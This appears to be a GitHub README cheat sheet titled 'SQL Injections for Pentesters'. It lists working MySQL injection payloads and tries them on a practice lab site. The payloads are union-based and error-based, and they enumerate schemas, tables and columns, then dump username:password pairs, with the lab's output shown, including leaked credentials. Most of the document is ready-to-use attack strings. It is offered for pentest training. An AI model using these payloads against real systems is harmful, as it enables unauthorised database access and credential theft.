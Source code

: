 # SQL Injections for Pentesters

by: @Anake    (Anakein)
email: anakein [@] protonmail [dot] ch

Hello my friends, this is my repo about sql injections. 

References:

 https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection
 
 http://www.securityidiots.com/Web-Pentest/SQL-Injection
 
 
LAB: http://leettime.net/sqlninja.com/index.php


```
select * from table_name where id=23

select * from table_name where id='23'

select * from table_name where id="23"

select * from table_name where id=(23)

select * from table_name where id=('23')

select * from table_name where id=("23")


+--------+------------------------------+
|Comment	|	      Name                   | 
+--------+------------------------------+
|--	     :	MySQL Linux Style            |
|--+	    :	MySQL Windows Style          |
|#	  :	Hash (URL encode while use)  |
|--+-	 :	SQL Comment                  |
|;%00	 :	Null Byte                    |
|`       : Backtick                     |
+--------+------------------------------+

```

## MYSQL Union Based

### Extract database with information_schema

First you need to know the number of columns, you can use `order by`

```sql
order by 1
order by 2
order by 3
...
order by XXX
```

OR

`1' order by 1,2,3%23`



Then the following codes will extract the databases'name, tables'name, columns'name.

#### Extract DATABASE NAME

`1' UniOn Select 1,gRoUp_cOncaT(0x7c,schema_name,0x7c),3+fRoM+information_schema.schemata%23`

OUTPUT:     leettime_761wHole

#### Extract TABLES NAME

`1' UniOn Select 1,gRoUp_cOncaT(0x7c,table_name,0x7C),3+fRoM+information_schema.tables+wHeRe+table_schema=database()%23`

OUTPUT:     |testtable1|,|userlogs|,|users|

#### Extract COLUMNS NAME

>>> REMEMBER USE SINGLE QUOTE  

```

In mysql there is a particularity

String inside strings duplicate quotes!

' blablabla ''string'' '

String >> string >> string

'blablabla '' blablabla '''' string '''' '' '

This used with frequency in mysql links.

```


`1' UniOn Select 1,gRoUp_cOncaT(0x7c,column_name,0x7C),3+fRoM+information_schema.columns+wHeRe+table_name='users'%23`

OUTPUT:    |id|,|username|,|password|,|user_type|,|sec_code|  

#### EXTRACT DATA

`1' union Select all 1,group_concat(0x7c,username,0x3a,password,0x7c),3 from users%23`

OUTPUT: |injector:khan|,|decompiler:hacktract|,|devilhunte:dante|,|Zen:sec-idiots|,|Zenodermus:security-i|,|grayhat:hacker|,|khan:haxor|,|admin:sadmin|

OR you can add limit using the `limit 0,1`, `limit 1,1`, `limit 2,1`...

`1' union Select 1,concat(username,0x3a,password),3 from users limit 2,1%23`

OUTPUT: decompiler:hacktract

## MYSQL Error Based

find errors, and interpreter. For example:

```
1'   out: 1' limit 1'
1/   out: error
1*   out: error
1--  out: no error  (Booowww)
1-- -  out: no error

Continue

1 and true;-- -    out: no error [Normal page]
1 and false;-- -   out: Invalid Input parameter [Error page]
```

##### Finding out the number of columns

```
1 order by 7-- -   out: error (Unknown column '7' in 'order clause')
1 order by 5-- -   out: no error  (us have 5 columns)

```

##### First lets try Union Based Injection.

`1 union select 1,2,3,4,database() -- -`   #No erro (loadpage normally)

Remember to invalidate the first input as i did by making it `-1`

`-1 union select 1,2,3,4,database() -- -`

OUTPUT: Username is : 2

2 is reference to the injectable field

`-1 union select 1,database(),3,4,5 -- -`

OUTPUT: Username is : leettime_761wHole







### UpdateXML function

`AND updatexml(rand(),concat(CHAR(126),version(),CHAR(126)),null)--`

OUTPUT: Error While Selection process : XPATH syntax error: '~5.6.44-cll-lve~'






Credits: @zc00l
